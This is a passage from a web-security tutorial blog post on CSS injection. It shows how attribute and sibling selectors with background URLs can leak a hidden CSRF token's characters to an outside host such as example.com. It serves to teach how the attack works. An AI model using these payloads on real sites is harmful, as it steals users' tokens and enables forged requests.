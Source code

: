 Let's first discuss the first question. What can be stolen? Usually, you want to steal some sensitive data, right?

The most common target is the CSRF token. If you don't know what CSRF is, you can first take a look at this article I wrote before: [Let's talk about CSRF](https://blog.huli.tw/2017/03/12/en/csrf-introduction/) (by the way, I plan to write a new CSRF series, it's in progress, if you want to read it, you can leave a message to urge me).

Simply put, if the CSRF token is stolen, it may be vulnerable to CSRF attacks. In short, just think of this token as very important. And this CSRF token is usually placed in a hidden input, like this:

``` html
<form action="/action">
  <input type="hidden" name="csrf-token" value="abc123">
  <input name="username">
  <input type="submit">
</form>
```

How can we steal the data inside?

## Stealing hidden input

For hidden input, writing it as we did before won't work:

``` css
input[name="csrf-token"][value^="a"] {
  background: url(https://example.com?q=a)
}
```

Because the input type is hidden, this element will not be displayed on the screen. Since it is not displayed, the browser does not need to load the background image, so the server will not receive any requests. And this restriction is very strict, even if you use `display:block !important;`, it cannot be overridden.

What should we do? It's okay, we have other selectors, like this:

``` css
input[name="csrf-token"][value^="a"] + input {
  background: url(https://example.com?q=a)
}
```

There is an additional `+ input` at the end. This plus sign is another selector, which means "select the element behind it". So the entire selector combined is "I want to select the input behind the input whose name is csrf-token and whose value starts with a", which is `<input name="username">`.

Therefore, the element that actually loads the background image is another element, and the other element does not have type=hidden, so the image will be loaded normally.

What if there are no other elements behind it? Like this:

``` html
<form action="/action">
  <input name="username">
  <input type="submit">
  <input type="hidden" name="csrf-token" value="abc123">
</form>
```
